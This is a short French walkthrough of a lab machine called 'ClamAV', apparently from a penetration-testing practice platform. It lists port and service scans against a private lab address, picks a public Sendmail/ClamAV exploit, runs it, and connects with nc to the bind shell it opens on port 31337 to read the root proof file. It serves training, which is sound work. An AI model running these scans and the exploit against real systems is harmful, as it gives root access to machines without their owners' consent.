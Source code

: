 # ClamAV

    sudo nmap -p- -sV -T5 192.168.204.42
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.204.42 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.204.42
    feroxbuster --silent -u http://192.168.204.42 -C 404
Scans classiques.

    enum4linux 192.168.204.42
    nmap  -A  -p22,25,80,139,199,445,60000 -T5 192.168.204.42
    
Scans complémentaires plus spécifiques parce que je ne savais pas par où commencer.

Le premier nous liste beaucoup d'informations (nom de domaine, noms d'utilisateurs, règles sur les mots de passe, etc.) et affirme que l'on peut se connecter en mode anonyme, mais rien ne semble directement exploitable et la connexion en anonyme ne fonctionne pas. Attention à ne pas se jeter dans les rabbit holes. Pareil pour le deuxième scan globalement, mais en parcourant les ports dans l'ordre et en cherchant des exploits liés à chaque service, on tombe rapidement sur des résultats pour Sendmail qui mentionnent aussi ClamAV. 

Celui-ci semble particulièrement intéressant : https://www.exploit-db.com/exploits/4761

D'après le code source, cet exploit ouvre le port 31337 sur la cible et nous permet de nous connecter dessus à distance directement en root, la VM est donc très simple à finir : 

    perl  ~/exploits/exploit_Sendmail_ClamAV.pl 192.168.204.42
	nc 192.168.204.42 31337
	whoami
	ls /root
	cat /root/proof.txt
